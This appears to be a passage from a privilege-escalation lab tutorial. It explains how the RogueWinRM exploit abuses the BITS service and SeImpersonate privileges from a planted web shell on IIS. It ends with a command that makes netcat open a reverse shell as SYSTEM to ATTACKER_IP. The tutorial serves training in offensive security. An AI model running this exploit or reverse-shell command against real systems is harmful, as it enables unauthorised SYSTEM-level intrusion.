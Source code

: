 We will use RogueWinRM exploit to accomplish both conditions.

Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:

`http://MACHINE_IP/`

We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:

![task6-program](./images/task6-program.png)

To use RogueWinRM, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the `C:\tools\` folder.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

![task6-nc](./images/task6-nc.png)

And then, use our web shell to trigger the RogueWinRM exploit using the following command:

```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```
